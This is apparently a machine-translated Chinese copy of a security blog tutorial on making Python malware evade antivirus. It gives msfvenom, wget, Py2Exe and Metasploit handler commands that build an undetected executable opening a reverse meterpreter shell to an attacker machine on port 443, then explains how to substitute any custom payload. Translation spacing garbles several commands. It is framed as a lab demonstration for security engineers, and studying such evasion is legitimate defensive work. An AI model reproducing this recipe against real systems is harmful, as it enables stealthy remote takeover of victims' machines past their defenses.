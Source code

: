 # 利用 Python 规避防病毒

> 原文：<https://infosecwriteups.com/antivirus-evasion-with-python-49185295caf1?source=collection_archive---------0----------------------->

# 摘要

在为您的组织部署深度防御安全控制时，您可能会将反病毒作为解决方案的一部分。这绝对是一个好的做法，只要我们记住，抗病毒药物只是增加了一层额外的保护，我们永远不应该仅仅依靠它来保护最终用户的设备。

良好的安全计划应始终包括深度防御控制，如软件更新治理、防火墙、培训/安全意识、物理安全、身份管理、密码策略等。然而，对于安全工程师来说，质疑这些额外层的必要性并不罕见，您可能需要演示如何轻松绕过抗病毒药物来证明您的观点。

在这篇文章中，我们将介绍一个非常直接的教程，关于如何在完全修补和更新的 Windows 环境中使用 Python 有效负载来躲避反病毒程序。

请记住，试图绕过防病毒是一场猫捉老鼠的游戏。每当一种新的规避技术流行时，反病毒供应商最终会了解它，并更新他们的签名数据库来阻止它。然后，新的规避技术将出现，这将使供应商将其添加到他们的签名数据库中，等等。

在撰写本文时，这里描述的方法已成功用于绕过 [Virus Total](http://www.virustotal.com) 上可用的所有供应商引擎，并在启用了 Windows Defender 的完全更新的 Windows 10 机器上成功执行恶意工件。

# Python 有效负载

基于签名的反病毒程序通过将工件二进制文件与签名数据库进行比较来工作。我们的目标是“伪装”我们的有效载荷，使其与任何反病毒供应商数据库中的任何已知签名都不匹配。基于行为的防病毒程序会尝试将已知的可疑活动与给定工件采取的操作进行匹配。我们的恶意软件将仅仅作为一个试图在端口 443 上启动 TCP 连接的客户端。这使得基于行为的反病毒程序更难标记这样的行为，而不会对合法应用程序(如网络浏览器)发出大量误报。

对于本例，我们将使用由 [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) 生成的 Python 有效负载，在端口 443 上向运行 Metasploit 的攻击者机器打开一个反向 TCP shell (meterpreter 会话)。像这样的工件显然是恶意的，应该被任何反病毒代理标记出来。

这里描述的方法足够灵活，因此您可以通过用您自己定制的 Python 有效负载替换我们的示例 msfvenom 有效负载来扩展它。

# 环境设置

我们建议在本教程中使用 3 台虚拟机:

[Kali Linux](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/) 用于创建有效负载和运行 Metasploit

[Windows metasplicable 3](https://github.com/rapid7/metasploitable3)用于将有效载荷打包成工件；

[Windows 10](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines) 全面打补丁运行最终神器；

我们使用两个不同的 Windows 虚拟机的原因是因为我们需要一个完全更新/修补的机器，以确保我们的工件将有很高的机会在任何给定的 Windows 环境下工作。另一方面，在用 Py2Exe 打包有效负载之前，一个完全打了补丁的机器总是会标记原始 Python 有效负载，这让您很难处理它。因此，在打包原始负载之前，需要 Metasploitable 3 虚拟机来处理它。

# 使用 Python 创建 FUD meterpreter 有效载荷

为了创建工件，我们建议使用 [Windows 元可编程 3](https://github.com/rapid7/metasploitable3) 作为您的主 Windows 环境。

为 Windows 安装 Python 2 . 7 . 16 x86:[https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi](https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi)

***注意:**需要 Python 2.7 x86。即使您的 Windows 是 x64 机器，也要安装 32 位版本。此外，确保在安装过程中选择“将 python.exe 添加到路径”选项

![](img/dc01eecedeead6b816bc256a988c5d78.png)

为 Python 2.7 安装 Py2exe 32 位:[https://SourceForge . net/projects/py2 exe/files/py2 exe/0 . 6 . 9/py2 exe-0 . 6 . 9 . win32-py 2.7 . exe/download](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)

可选地，为 Windows 安装[开放 SSL](https://slproweb.com/products/Win32OpenSSL.html) 。

切换到 Kali Linux 机器并创建 Python 有效负载。

***注:**我们的 Kali Linux 使用的是 IP 地址 10.0.2.10。在本教程的所有剩余步骤中，请确保用当前 IP 替换它。

> MSF venom-p python/meter preter/reverse _ TCP LHOST = 10 . 0 . 2 . 10 LPORT = 443-f raw-o/var/www/html/mrtp . py
> 
> 服务 apache2 启动

![](img/34ef1c54ef44abe02399ece565f8f665.png)

将有效负载“mrtp.py”拷贝回您的 Windows 机器。使用 powershell，运行:

> wget[http://10 . 0 . 2 . 10/mrtp . py](http://10.0.2.10/mrtp.py)O mrtp . py

此外，创建一个包含以下内容的 setup.py 文件:

将独立的 Python 可执行文件与 Py2Exe 捆绑在一起:

> python.exe。\setup.py py2exe

![](img/0a02d88efd2dc2094eeb13fa6178296b.png)

测试在 dist 文件夹下创建的工件“mrtp.exe ”:

![](img/9e67b6bc24bc95fe0243cd0eecb2ce01.png)

运行它:

> 。\dist\mrtp.exe

切换回 Kali Linux 并运行 Metasploit:

我们假设配置如下:Kali 虚拟机 IP: 10.0.2.10

> msfconsole
> 
> 使用漏洞利用/多重/处理程序
> 
> 设置有效负载 python/meterpreter/reverse_tcp
> 
> 设置 LHOST 10.0.2.10
> 
> 设置 LPORT 443
> 
> 奔跑

***注意:**根据设置 Metasploit 处理程序所需的时间，您可能需要再次在 Windows box 上运行 mrtp.exe。

![](img/762493408df045e741b26eb6eba75af2.png)

既然我们已经确认我们的工件工作正常，让我们对照 VirusTotal 上所有可用的防病毒引擎来检查它。访问 www.virtutotal.com，提供你的“mrtp.exe”文件进行扫描。

如果一切顺利，你应该会得到一个类似于下面的[的干净报告。](https://www.virustotal.com/gui/file/ae5d74fac07fe36914778bf322d4656d838b872086764ab84985200acf25d774/detection?gclid=EAIaIQobChMIlc3wvfTd4gIVh8JkCh15bgqzEAAYASAAEgKV-_D_BwE)

![](img/48ab821d6c5cc9c9f71ba88390f3bcd7.png)

现在是时候在 [Windows 10](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines) 机器上运行它了。将“mrtp.exe”文件直接复制到 Windows 10 盒子中。在现实生活中，您需要利用一些攻击媒介来部署它并在您的目标上执行它，但是，这超出了本文的范围。

![](img/db6670b531ed46e436f2c3805520b57e.png)

确保您的 Metasploit 处理程序正在侦听端口 443，并在 Windows 10 机器上运行工件“mrtp.exe”。

![](img/3a90edb157fdcb88e1289453eac70a68.png)

如屏幕截图所示，工件的执行完全未被检测到，并且成功建立了一个 meterpreter 会话。

# 定制您自己的 Python 有效负载

您可以利用这种技术并使用您自己定制的 Python 有效负载。你需要做的就是重复上一个会话的步骤，用 msfvenom 生成“mrtp.py”文件后编辑它。您必须用自己的 Python 代码替换原始的 base64 编码字符串。

举个例子，让我们创建一个新的“custom _ payload . py”Python 脚本，它只打印两条消息，并将其用作我们的新负载。

创建之后，我们需要用 base64 编码对其进行编码:

> cat custom_payload.py | base64

![](img/6f3d7e792aaebad9f41479a08bb7bb86.png)

对于我们使用的示例脚本，它将给出以下 base64 编码的字符串:“chjpbnqgkcjddxn 0 b 21 pemvkihbhewxvywqik qpwmludcaoikl 0 ihdvcmtzisipcg = =”

现在，我们编辑在前一个会话中使用的现有“mrtp.py”脚本，并用新的脚本替换以“aW1wb3J0IHNvY2t”开头的原始 base64 字符串。

![](img/e7b4e25bb1957913ad08a8a1ba4478cf.png)

自定义之后，最终结果应该类似于以下内容:

将新的“mrtp.py”复制回您的 Windows 计算机，并重复捆绑步骤:

> wget[http://10 . 0 . 2 . 10/mrtp . py](http://10.0.2.10/mrtp.py)O mrtp . py
> 
> python.exe。\setup.py py2exe
> 
> 。\dist\mrtp.exe

![](img/a1ad72b6d825ee741bbea4649660e90f.png)

在执行新的“mrtp.exe”捆绑 Python 工件后，我们得到了打印在终端上的“定制有效负载”“它工作”字符串。

此时，您应该能够创建任何您想要的 Python FUD 工件，只需编辑“custom_payload.py”文件并将其与 Py2Exe 捆绑在一起。